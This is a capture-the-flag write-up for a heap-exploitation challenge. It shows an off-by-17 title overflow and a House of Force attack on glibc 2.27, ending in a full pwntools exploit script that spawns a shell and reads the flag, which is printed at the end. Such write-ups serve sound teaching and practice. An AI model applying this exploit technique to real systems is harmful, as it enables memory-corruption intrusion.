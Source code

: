 # markback

[library.m0unt41n.ch/challenges/markback](https://library.m0unt41n.ch/challenges/markback) ![](../../resources/pwn.svg) ![](../../resources/hard.svg) 

# TL;DR

Heap exploitation.

Honestly, this felt more like "easy-medium". We get the glibc (that can be used with
[pwninit](https://github.com/io12/pwninit) for easy reproduce) and the challenge text provides a link to
[House Of Force](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_force.c) -
which is pretty much a description of the solution &#128578;

# The code

We have a static structure:

```c
typedef struct {
    char *title;
    int paragraph_count;
    char *paragraphs[MAX_PARAGRAPHS];
    char *licence;
} Document;
```

... and a dialog UI where we can:

*   Add a text as "paragraph" (up to `MAX_PARAGRAPHS`)
*   Export title and paragraphs as a simple markdown
*   Set the title
*   Get some internal information about the document

## "debug console"

There is also an additional `debug_console()` function, triggered by typing `1337` - and that launches
a shell. But calling that is gated with a static variable, set to zero and never modified:

```c
int debug = 0;

(...)

case 1337:  if(debug) {
    debug_console(); break;
}
```

## "internal information"

That "internal information" is actually rather meaningful:

```bash
document title: not title set
paragraphs: 0
document identifier: 93973599605888
licence: Use of this product includes a limited free trial, with a license required for continued access afterward.
licence identifier: 93973012025784
```

The "identifiers" there are just memory offsets of, respectively, `Document` struct and `licence` string.

# The bug

```c
#define MAX_TITLE_LENGTH 32

void set_title(Document *doc) {
    printf("New title: ");
    fgets(doc->title, 49, stdin);
    printf("set title to: %s\n\n", doc->title);
}
```

The title string is allocated as fixed 32 bytes, but `set_title()` **allows up to 49 characters**.
Which, conveniently, is exactly what is needed to overwrite the header of the top heap chunk

# The heap

(I used `vis_heap_chunks` from [pwndbg](https://github.com/pwndbg/pwndbg))

After starting the program and changing the title, the heap looks as follows:

*   The header (starts at `[heap]` address in process map, contains `tcache_perthread_struct`):

    ```bash
    0x555555a01000  0x0000000000000000  0x0000000000000251  ........Q.......
    0x555555a01010  0x0000000000000000  0x0000000000000000  ................
    0x555555a01020  0x0000000000000000  0x0000000000000000  ................
    0x555555a01030  0x0000000000000100  0x0000000000000000  ................
    0x555555a01040  0x0000000000000000  0x0000000000000000  ................
    ..............
    0x555555a01250  0x0000000000000000  0x0000000000000231  ........1.......
    ```

*   A free chunk of `0x230` bytes (`tcachebins[0x230][0/1]`) - probably leftover of some initialization

    ```bash
    0x555555a01260  0x0000000000000000  0x0000555555a01010  ...........UUU..	 
    0x555555a01270  0x0000000000000000  0x0000000000000000  ................
    ..............
    0x555555a01470  0x0000000000000000  0x0000000000000000  ................
    0x555555a01480  0x00007ffff7be7d60  0x00000000000000c1  `}..............
    ```

*   The `doc` structure:

    ```bash
    0x555555a01490  0x0000555555a01550  0x0000000000000000  P..UUU..........  # *title, paragraph_count
    0x555555a014a0  0x0000000000000000  0x0000000000000000  ...UUU.....UUU..  # *paragraphs[20]
    0x555555a014b0  0x0000000000000000  0x0000000000000000  ...UUU..........
    0x555555a014c0  0x0000000000000000  0x0000000000000000  ................
    0x555555a014d0  0x0000000000000000  0x0000000000000000  ................
    0x555555a014e0  0x0000000000000000  0x0000000000000000  ................
    0x555555a014f0  0x0000000000000000  0x0000000000000000  ................
    0x555555a01500  0x0000000000000000  0x0000000000000000  ................
    0x555555a01510  0x0000000000000000  0x0000000000000000  ................
    0x555555a01520  0x0000000000000000  0x0000000000000000  ................
    0x555555a01530  0x0000000000000000  0x0000000000000000  ................
    0x555555a01540  0x00005555554011b8  0x0000000000000031  ..@UUU..1.......  # licence. Next chunk: 0x30b
    ```

*   The `doc->title` string (nominally 32, useable 40, can overflow up to 49)

    ```bash
    0x555555a01550  0x4954495449544954  0x4954495449544954  TITITITITITITITI
    0x555555a01560  0x4954495449544954  0x4954495449544954  TITITITITITITITI
    0x555555a01570  0x0a74697469746974  0x0000000000000021  tititit.!.......  # Next chunk: 0x20b
    ```

With these specific offsets, the `debug` variable is located at `0x55555560204c`.
With 16b alignment, that's `0x555555602040`

# House of Force

The [idea described in the linked code](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_force.c) (enabled by a bug in glibc-2.27) is:

*   (First, we need to get all these offsets from a running program. But, we get these from "internal information")
*   Overflow the length of the top chunk to `-1` (`INT_MAX`, making glibc think that we have entire memory free to allocate)
*   "allocate" a very large chunk of RAM, that will end **just before the variable which we need to overwrite** (`debug` in our case)
*   Then, "allocate" a smaller chunk, which will go over that variable
*   And then, write to that chunk.

With above offsets, that would amount to:

*   Get `license_addr` from the program (`93824990843320` -> `0x5555554011b8`)
*   Get `doc_addr` from the program (`93824997135504` -> `0x555555a01490`)
*   Calculate `debug_addr`, by adding delta between known offsets above:
    `license_addr + 0x55555560204c - 0x5555554011b8`
*   `debug_aligned` = `debug_addr & 0xFFFFFFFFFFFFFFF0`
*   Calculate the length of the "very large chunk" (subtracting 16 for the chunk metadata):<br>
    `chunk_len = debug_aligned - doc_addr + 0x0000555555a01580 - 0x0000555555a01490 - 16`
*   Set title to:
    *   32 bytes of regular text `TTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT`
    *   8 bytes to use the "useable" part of a 16B-aligned chunk `tttttttt`
    *   `pwn.p64(-1)`, to make glibc think that the top free chunk covers entire RAM already
*   Add a paragraph, telling the program that the length is `chunk_len` calculated above. Give it only some short text.
*   Add another, short paragraph  (24 bytes results in a smallest possible chunk). Give it 16 characters.

The last step will overwrite the `debug` variable and unlock the `1337` option.

# The code

```python
import pwn
import re

exe = pwn.ELF("chall_patched")
io = pwn.process([exe.path])

# Get to the first prompt
io.readuntilS(b" > ")

# Get offsets
io.sendline(b"4")
s = io.readuntilS(b" > ")

# Calculate doc_addr and license_addr
doc_addr = int(re.search(r'document identifier: ([0-9]*)', s, re.MULTILINE).group(1))
license_addr = int(re.search(r'licence identifier: ([0-9]*)', s, re.MULTILINE).group(1))

# Calculate other offsets
debug_addr = license_addr + 0x000055555560204c - 0x00005555554011b8
debug_aligned = debug_addr & 0xFFFFFFFFFFFFFFF0
old_top = doc_addr + 0x0000555555a01580 - 0x0000555555a01490
chunk_len = debug_aligned - old_top - 16

# Set title, overflow top chunk
io.sendline(b"3")
io.readuntilS(b"New title: ")
io.send((32*b'T')+(8*b't')+pwn.p64(0xFFFFFFFFFFFFFFFF))
io.readuntilS(b" > ")

# Add long paragraph
io.sendline(b"1")
io.readuntilS(b"New paragraph length: ")
io.sendline(str(chunk_len).encode('utf-8'))
io.readuntilS(b"New paragraph content: ")
io.sendline(b'blah')
io.readuntilS(b" > ")

# Add paragraph overlapping with debug
io.sendline(b"1")
io.readuntilS(b"New paragraph length: ")
io.sendline(b"24")
io.readuntilS(b"New paragraph content: ")
io.sendline(b'A'*16)
io.readuntilS(b" > ")

# Start the shell
io.sendline(b"1337")
io.readuntilS(b"launching debug console:")
io.sendline(b"cat flag.txt")
flag = io.readuntilS(b"}")[1:]
print(flag)
io.sendline(b"exit")
io.readuntilS(b" > ")
io.sendline(b"5")
io.close()
```

This works &#128578;

---

## `stairctf{f0rc3_y0ur_w4y_t0_th3_f1ag!}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
